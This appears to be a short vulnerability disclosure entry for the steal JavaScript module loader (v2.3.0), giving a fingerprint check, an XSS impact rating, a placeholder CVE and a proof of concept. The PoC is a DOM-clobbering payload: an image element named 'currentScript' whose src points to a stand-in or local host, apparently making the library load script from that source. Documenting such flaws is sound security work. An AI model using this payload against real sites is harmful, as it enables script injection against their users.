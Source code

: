 ## steal

### Meta

+ Library: steal
+ Stars: 1.4K
+ Version: v2.3.0
+ Fingerprint: `typeof window.steal !== 'undefined' && typeof window.steal.loader === 'object'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"><img>```
+ Impact: XSS
+ CVE: CVE-2024-XXXXX
+ Status: Accepted
+ Foundby: TheHulk


### Library

https://github.com/stealjs/steal

### Vulnerable Code Snippet

too complicated.

## PoC

after running `npm install`

```html
<!--Library-->
<script src="./node_modules/steal/steal.js" main></script>
<!--Library-->

<!--Payload-->
<image name="currentScript" src="http://localhost:9999"></image>
<!--Payload-->
```
